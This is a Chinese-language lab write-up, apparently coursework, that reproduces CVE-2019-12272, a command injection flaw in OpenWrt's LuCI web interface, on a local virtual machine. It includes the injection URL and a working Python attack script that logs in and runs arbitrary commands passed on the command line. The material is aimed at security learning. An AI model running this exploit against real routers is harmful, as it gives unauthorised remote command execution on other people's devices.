






# CVE-2019-12272漏洞复现

## 实验环境

+ OpenWrt15.05.1

+ Chrome 浏览器开发者工具

+ Python

## 实验过程

### 环境搭建

+ 下载安装存在该漏洞的 `OpenWrt` [镜像版本](https://archive.openwrt.org/chaos_calmer/15.05.1/x86/64/openwrt-15.05.1-x86-64-combined-ext4.img.gz)。

+ 参考[第一章实验 OpenWrt on VirtualBox](https://c4pr1c3.github.io/cuc-mis/chap0x01/exp.html#openwrt-on-virtualbox) 的方法进行安装。

+ 安装成功

  

+ 设置进行远程管理的的IP地址为 `192.168.56.22`

  

### 漏洞复现

+ 先使用管理员账号登录 `LuCI` ，再使用浏览器访问 `http://192.168.56.22/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞。

+ 再访问 `http://192.168.56.22/cmd.txt` 获取上一步命令执行的结果。

  

### 漏洞利用

+ 通过 `Chrome` 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 `curl` 命令。

  

+ 通过第三方网站 [将 curl 命令转换为 Python requests 代码](https://curl.trillworks.com/) ，再稍加改动添加继续访问 /cmd.txt 并打印服务器响应，得到示例如下：

  ```bash
  import requests

  cookies = {
    'sysauth': 'e5ec6a4422695d0ae1b82df8225b319d',
  }

  headers = {
      'Proxy-Connection': 'keep-alive',
      'Cache-Control': 'max-age=0',
      'Upgrade-Insecure-Requests': '1',
      'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36',
      'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
      'Accept-Language': 'zh-CN,zh;q=0.9',
  }

  response = requests.get('http://192.168.56.22/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0%5E$(ifconfig%5E%%5E3ecmd.txt)', headers=headers, cookies=cookies, verify=False)

  # added by human
  if response.status_code == 200:
      response = requests.get('http://192.168.56.3/cmd.txt')
      print(response.text)
  else:
      print("exp failed")
  ```

+ 使用 `VS Code` 运行结果如下：

  

### 编写攻击脚本

+ 参考[黄大视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)中的代码修修改改为[Attack.py](script/Attack.py), 代码如下：

  ```bash
  import requests
  from urllib.parse import urlparse
  import sys

  class CVE_2019_12272:
      def __init__(self, host = '192.168.56.22'):
          self.host = host
          self.stok = ''
          self.cmd = ''
          self.luci_username = 'root'
          self.luci_password = '123456789'
          self.sysauth = '24a291bfb814f167de7eeb086effd969'
          self.cookies = ''
          self.headers = {
              'Connection': 'keep-alive',
              'Pragma': 'no-cache',
              'Cache-Control': 'no-cache',
              'Upgrade-Insecure-Requests': '1',
              'Origin': self.host,
              'Content-Type': 'application/x-www-form-urlencoded',
              'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
              'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
              'Referer': 'http://192.168.56.22/cgi-bin/luci',
              'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
          }
        
      def login(self):
          data = {
          'luci_username': self.luci_username,
          'luci_password': self.luci_password
          }
          url = 'http://{host}/cgi-bin/luci'.format(host = self.host)
          response = requests.post(url, headers=self.headers, data=data, verify=False, allow_redirects=False)
          self.cookies = response.cookies
          Location = response.headers['Location']
          self.stok = urlparse(Location).params

      def shell(self, cmd = 'ifconfig'):
          self.cmd = cmd + '%3ecmd.txt'
          url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd})'.format(host = self.host, cmd = self.cmd, stok = self.stok)
          headers = {
              'Connection': 'keep-alive',
              'Pragma': 'no-cache',
              'Cache-Control': 'no-cache',
              'Upgrade-Insecure-Requests': '1',
              'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
              'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
              'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
          }
          response = requests.get(url, headers=headers, cookies=self.cookies, verify=False)

      def view(self):
          url = 'http://{host}/cmd.txt'.format(host = self.host)
          response = requests.get(url, headers=self.headers)
          print(response.text)

  if __name__ == '__main__':
      test = CVE_2019_12272()
      test.login()
      test.shell(sys.argv[1])
      test.view()
  ```

+ 攻击效果如下图所示：

  
## 参考资料

+ [第四章 移动通信安全概述](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)

+ [CVE-2019-12272 EXP 编写从零开始](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)